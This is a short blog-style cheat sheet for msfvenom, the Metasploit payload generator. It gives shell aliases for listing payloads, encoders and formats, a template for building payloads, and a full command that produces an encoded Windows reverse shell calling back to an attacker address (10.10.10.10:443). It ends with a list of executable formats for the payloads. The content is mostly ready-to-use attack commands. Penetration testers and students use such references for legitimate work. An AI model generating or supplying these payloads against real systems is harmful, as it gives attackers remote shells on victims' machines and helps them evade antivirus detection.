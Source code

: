 ```yaml
---
layout: default
title: "The msfvenom cheat sheet"
---
```

Here are simple msfvenom commands to help in quick payload generation.  

I love the msfvenom aliases that g0tmi1k setup in his [os-scripts](https://github.com/g0tmi1k/os-scripts). These will help in finding the correct payloads, encoders, and formats.  

Place these aliases in ~/.bash_aliases:  

> **`alias msfvenom-list-all='cat ~/.msf4/msfvenom/all'`**  
> **`alias msfvenom-list-nops='cat ~/.msf4/msfvenom/nops'`**  
> **`alias msfvenom-list-payloads='cat ~/.msf4/msfvenom/payloads'`**  
> **`alias msfvenom-list-encoders='cat ~/.msf4/msfvenom/encoders'`**  
> **`alias msfvenom-list-formats='cat ~/.msf4/msfvenom/formats'`**  

Finish the setup by running the following:

> **`mkdir -p ~/.msf4/msfvenom/`**  
> **`msfvenom --list > ~/.msf4/msfvenom/all`**  
> **`msfvenom --list nops > ~/.msf4/msfvenom/nops`**  
> **`msfvenom --list payloads > ~/.msf4/msfvenom/payloads`**  
> **`msfvenom --list encoders > ~/.msf4/msfvenom/encoders`**  
> **`msfvenom --help-formats 2> ~/.msf4/msfvenom/formats`**  

A basic msfvenom command.

> **`msfvenom -p <payload> LHOST=<Your IP> LPORT=<Your Port> -f <format> -e <encoder> -b <bad characters>`**  

A reverse shell example for windows that connects to attacker IP 10.10.10.10 on port 443. This is formatted in c and encode in x86/shikata_ga_nai with bad characters \x00 and \x04.

> **`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x04"`**  

Dont forget that we can build **exe**, **war**, **vbs**, and **asp** executables. Current formats supported by msfvenom are as follows:  

> **`Executable formats`**

>> **`asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war`**  

> **`Transform formats`**

>> **`bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript`**  
